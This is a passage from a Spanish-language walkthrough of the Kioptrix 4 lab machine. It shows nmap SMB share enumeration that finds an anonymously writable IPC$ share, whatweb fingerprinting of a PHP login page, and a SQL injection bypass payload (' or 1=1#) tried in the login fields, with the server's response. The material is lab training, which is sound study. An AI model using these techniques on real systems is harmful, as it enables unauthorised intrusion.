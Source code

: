 Siguiendo con el reconocimiento, buscaremos enumerar los recursos compartidos por smb:
```js
$nmap -p445 --script "smb-enum-shares" -sC 192.168.0.69
[...]

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-enum-shares: 
|   account_used: guest
|   \\192.168.0.69\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (Kioptrix4 server (Samba, Ubuntu))
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\192.168.0.69\print$: 
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|_    Current user access: <none>
```

El script `smb-enum-shares` enumera los recursos compartidos como habíamos dicho, pero usa la cuenta que tenemos `guest`, es decir, simulamos un acceso anónimo.
Podemos ver algo inusual; IPC$ normalmente no comparte archivos, se usa para la comunicación de procesos, pero el `READ/WRITE` indica acceso (como si se utilizara para archivos). Cosa que no pasa con print$.

Con esta carpeta mal configurada, tenemos un posible vector de ataque.
Sigamos con el reconocimiento,hay un puerto 80 esperando...

En un primer reconocimiento, podemos intuir que se trata de un login:
```python
$whatweb http://192.168.0.69
http://192.168.0.69 [200 OK] Apache[2.2.8], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch], IP[192.168.0.69], PHP[5.2.4-2ubuntu5.6][Suhosin-Patch], PasswordField[mypassword], X-Powered-By[PHP/5.2.4-2ubuntu5.6]
```

Con el payload `' or 1=1#` en ambos campos, obtuvimos esto:
```html
User \'or 1=1<br><br>

Oups, something went wrong with your member's page account.<br>
Please contact your local Administrator<br>
to fix the issue.<br>
<form method="link" action="index.php">
<input type=submit value="Back"></form>
```
